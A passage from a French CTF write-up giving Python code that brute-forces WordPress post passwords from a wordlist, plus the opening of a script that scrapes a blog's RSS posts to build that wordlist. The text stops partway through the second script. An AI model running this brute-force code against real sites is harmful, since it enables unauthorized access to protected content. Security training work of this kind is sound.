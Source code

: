 ```python
# If everything is OK, perform the brute force
with open(sys.argv[2], encoding="utf-8", errors="ignore") as fd:
    for line in fd:
        password = line.strip()
        response = sess.post(
            wp_login_url,
            data={"post_password": password, "Submit": "Enter"},
            headers={"Referer": sys.argv[1]},
        )
        if 'class="post-password-form"' not in response.text:
            print(f"Found password {password}")
            sys.exit()
```

Couplé à ça, il faut disposer d'une wordlist. On peut la générer depuis les mots présents dans les pages du Wordpress mais je n'avais pas envie d'utiliser `Cewl` qui remonte trop de bruit.

J'ai donc écrit ce code suivant qui va récupérer les URLs des posts via le flux RSS puis extrait les mots présents en supprimant la ponctuation et découpe sur les whitespaces :

```python
# Extract words from a Wordpress blog. Utility for CTFs.
# https://devl00p.github.io/ - 2023
import sys                                                                                                             
from urllib.parse import urlparse, urlunparse                                                                          
import xml.etree.ElementTree as ET                                                                                     
import string                                                                                                          
                                                                                                                       
import requests                                                                                                        
from requests.exceptions import RequestException                                                                       
from bs4 import BeautifulSoup                                                                                          
                                                                                                                       
def extract_words(text):                                                                                               
    # Remove punctuation marks                                                                                         
    text = text.translate(str.maketrans('', '', string.punctuation))                                                   
    # Split into words                                                                                                 
    words = text.split()                                                                                               
    return words                                                                                                       
                                                                                                                       
if len(sys.argv) < 2:                                                                                                  
    print(f"Usage: python {sys.argv[0]} blog_url output_file")                                                         
    sys.exit()                                                                                                         
                                                                                                                       
parts = urlparse(sys.argv[1])                                                                                          
if not parts.scheme and not parts.netloc:                                                                              
```
